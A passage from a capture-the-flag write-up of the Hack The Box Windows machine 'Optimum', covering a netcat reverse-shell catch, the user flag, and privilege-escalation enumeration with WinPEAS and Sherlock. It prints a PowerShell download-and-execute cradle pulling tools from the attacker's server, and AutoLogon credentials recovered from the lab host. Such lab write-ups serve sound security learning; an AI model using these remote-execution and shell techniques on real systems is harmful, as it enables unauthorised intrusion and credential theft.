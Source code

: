 ```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Optimum]
└─$ nc -lvnp 9001    
listening on [any] 9001 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.8] 49166
whoami
optimum\kostas
PS C:\Users\kostas\Desktop> cat user.txt        
[REDACTED]
```

I was able to grab the user flag.

## Privilege Escalation
I started with [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) to look for escalation paths.

I hosted a python server and transferred winPEAS through it using the following command:
```
IEX(New-Object Net.WebClient).downloadstring('http://10.10.16.2/winPEAS.exe')
```

Scanning through the output, there were a few interesting things.

The box is `Windows Server 2012 R2`, and `64-bit`:
```
    Hostname: optimum                               
    ProductName: Windows Server 2012 R2 Standard
    EditionID: ServerStandard                       
    ReleaseId:                                      
    BuildBranch:                                    
    CurrentMajorVersionNumber:                      
    CurrentVersion: 6.3                             
    Architecture: AMD64
```

There were creds for kostas:

```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*    

```
A bunch of services were called out as potentially interesting, but nothing in there really panned out.

Then, I decided to use `Sherlock`, which is a PowerShell script. I’ll download a copy, and see that it defines a bunch of functions, but doesn’t call any. I’ll add a line at the end to call `Find-AllVulns`. Then I’ll use a Python HTTP server to host a copy, and execute it the same way I got a shell:

```
...
            7601 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -lt 23584 ] }
            9600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 18524 ] }
            10240 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 16384 ] }
            10586 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 19 ] }
            14393 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 446 ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    Set-ExploitTable $MSBulletin $VulnStatus

}

```